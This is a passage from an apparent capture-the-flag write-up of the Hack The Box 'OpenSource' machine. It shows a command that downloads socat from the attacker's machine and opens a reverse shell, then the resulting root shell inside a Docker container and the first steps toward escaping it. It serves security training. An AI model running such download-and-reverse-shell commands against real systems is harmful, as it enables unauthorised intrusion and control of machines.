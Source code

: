 **Upload `socat` binary to the target machine, and trigger the `socat` reverse shell:**
```
/app # wget http://10.10.14.42:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.10.14.42:4444 EXEC:'/bin/sh',pty,stderr,setsid,sigint,sane
```

**Stable shell connection:**
```
[...]
                                                                  2022/09/14 09:56:20 socat[196629] N accepting connection from AF=2 10.10.11.164:49584 on AF=2 10.10.14.41:4444
                                                        2022/09/14 09:56:20 socat[196629] N starting data transfer loop with FDs [5,5] and [7,7]
                        /bin/sh: can't access tty; job control turned off
/app # 
/app # stty rows 22 columns 121
/app # export TERM=xterm-256color
/app # whoami;hostname;id;ip a
root
9e38ef79cc9b
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
/app # ^C
/app # 
```

# Privilege Escalation

## Docker container root to dev01

**Since We're inside a docker container, we need to escape it.**

**Let's find open ports:**
```
~ # netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      8/python
netstat: /proc/net/tcp6: No such file or directory
netstat: /proc/net/udp6: No such file or directory
```

Hmm... Only port 80??

**Do you still remember port 3000 that `nmap` scanned?**
```
┌──(root🌸siunam)-[~/ctf/htb/Machines/OpenSource]
└─# nmap -T4 -sC -sV -p- $RHOSTS
PORT     STATE    SERVICE VERSION
[...]
3000/tcp filtered ppp
```
